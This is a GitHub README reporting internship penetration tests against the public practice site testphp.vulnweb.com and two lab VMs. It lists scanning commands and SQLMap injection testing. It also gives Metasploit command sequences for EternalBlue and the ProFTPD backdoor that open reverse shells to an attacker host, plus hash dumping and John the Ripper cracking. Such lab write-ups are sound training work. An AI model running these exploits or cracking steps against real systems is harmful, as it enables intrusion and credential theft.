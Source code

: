 # Cybersecurity Internship Projects

## Overview
These projects were completed as part of my internship at **Yhill Edutech Pvt. Ltd.**. The projects focus on penetration testing, vulnerability assessment, and network scanning for both web applications and virtual machines (VMs). Below are the details and findings for each project.

---

## Project 1: Web Application Penetration Testing

### Scenario:
I conducted penetration testing on **http://testphp.vulnweb.com** to identify security vulnerabilities. This high-level technical report includes proof of concept (POC) screenshots, techniques used, and the tools/frameworks utilized.

### Target Information:
- **Website**: testphp.vulnweb.com
- **IP Address**: 44.228.249.3
- **Operating System**: Likely Linux (version 2.6.32 - 5.8)
- **Open Ports**: 80 (HTTP)

### Tools and Techniques:
1. **WhatWeb Scanning**:
   - **Command**: `whatweb http://testphp.vulnweb.com`
   - **Findings**: Outdated software (Nginx 1.19.0, PHP 5.6.40), Adobe Flash vulnerability.

2. **SQL Injection Testing**:
   - **Tool**: SQLMap
   - **Command**: `sqlmap -u "http://testphp.vulnweb.com/login.php" --forms`
   - **Findings**: SQL Injection vulnerabilities in `uname` and `pass` fields.
     - Boolean-based blind, Time-based blind, and UNION query injections.

3. **Directory Enumeration**:
   - **Tool**: Gobuster
   - **Command**: `gobuster dir -u http://testphp.vulnweb.com -w /usr/share/dirb/wordlists/common.txt`
   - **Findings**: Access to sensitive directories like `/admin`, `/cgi-bin/`, and `/secured/`.
![image](https://github.com/user-attachments/assets/7004eac6-7715-4533-9139-9656be95b39f)

4. **Web Vulnerability Scanning**:
   - **Tool**: Nikto
   - **Command**: `nikto -h http://testphp.vulnweb.com`
   - **Findings**: Missing security headers (X-Frame-Options, X-Content-Type-Options), accessible files (`/clientaccesspolicy.xml`, `/crossdomain.xml`).
![image](https://github.com/user-attachments/assets/31383c81-9aaf-446c-8733-5ed72120b5bf)

### Conclusion:
The web application is vulnerable to multiple SQL injection types in the login form. The presence of outdated software and missing security headers increases the risk of unauthorized access and data breaches.

---

## Project 2: Network Penetration Testing

### Scenario:
I conducted network penetration testing on **Windows VM** and **Ubuntu VM** to identify devices and vulnerabilities. This technical documentation includes a complete report with proof of concept (POC) screenshots, testing techniques, and a non-technical summary.

### Target Information:
- **Windows VM IP**: 172.16.130.132
- **Ubuntu VM IP**: 172.16.130.133

### Tools and Techniques:
1. **Network Reconnaissance**:
   - **Tool**: ARP-Scan
   - **Command**: `arp-scan --localnet`
   - **Findings**: Discovered target IPs for Windows and Ubuntu VMs.

2. **Nmap Scanning**:
   - **Windows VM**:
     - **Command**: `nmap -sV --script vuln -oN nmap_scan_results.txt 172.16.130.132`
     - **Findings**: Vulnerable to MS17-010 SMBv1 vulnerability (Remote Code Execution, port 445).
   - **Ubuntu VM**:
     - **Command**: `sudo nmap -sS -sV -O -T4 -A 172.16.130.133`
     - **Findings**: Vulnerability in ProFTPD (port 21).

3. **Exploitation**:
   - **Windows VM**: 
     - **Tool**: Metasploit
     - **Command**:
       ```
       msfconsole
       search ms17-010
       use exploit/windows/smb/ms17_010_eternalblue
       set RHOSTS 172.16.130.132
       set RPORT 445
       set LHOST 192.168.100.191
       set LPORT 4444
       exploit
       ```
     - **Outcome**: Successfully exploited MS17-010 SMB vulnerability, accessed the system.
      ![image](https://github.com/user-attachments/assets/b04559c0-de54-4cd2-9a2e-bebfe413ef1f)
 
   - **Ubuntu VM**: 
     - **Tool**: Metasploit
     - **Command**:
       ```
       search proFTPD 1.3.3c
       use exploit/unix/ftp/proftpd_133c_backdoor
       set RHOST 172.16.130.133
       set RPORT 21
       set LHOST 192.168.100.191
       set LPORT 4443
       exploit
       ```
     - **Outcome**: Gained root access through ProFTPD backdoor.
       ![image](https://github.com/user-attachments/assets/1f2cd47f-5335-481d-ba25-fa68b8beff12)

4. **Password Cracking**:
   - **Windows VM**:
     - **Command**:
       ```
       hashdump
       john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt
       ```
     - **Outcome**: Cracked the password: `alqfna22`.
![image](https://github.com/user-attachments/assets/5bfb2898-7169-45c8-84a0-32bb3607a4a9)

   - **Ubuntu VM**:
     - **Command**:
       ```
       unshadow passwd.txt shadow.txt > pass.txt
       john pass.txt
       ```
     - **Outcome**: Cracked the password: `marlinspike`.
       ![image](https://github.com/user-attachments/assets/dc3035a6-4cee-427b-929f-0d9cad844e9b)


### Conclusion:
Both the **Windows VM** and **Ubuntu VM** contain critical vulnerabilities that allow for remote code execution and unauthorized access. Immediate patching and updating are strongly recommended.

---

## Tools Used:
- **WhatWeb**: Web server scanning and enumeration.
- **SQLMap**: Automated SQL injection detection.
- **Gobuster**: Directory brute-forcing.
- **Nikto**: Web vulnerability scanning.
- **ARP-Scan**: Network device identification.
- **Nmap**: Vulnerability scanning and service detection.
- **Metasploit**: Exploitation framework.
- **John the Ripper**: Password cracking.

---

## Acknowledgments
These projects were part of my **cybersecurity internship** at **Yhill Edutech Pvt. Ltd.**, where I gained valuable experience in penetration testing, vulnerability assessments, and reporting.

---

### Contact Information:
For more information or to discuss the projects in detail, feel free to reach out via [LinkedIn](https://www.linkedin.com/in/neeraj-kumar-2ba511286/).

---

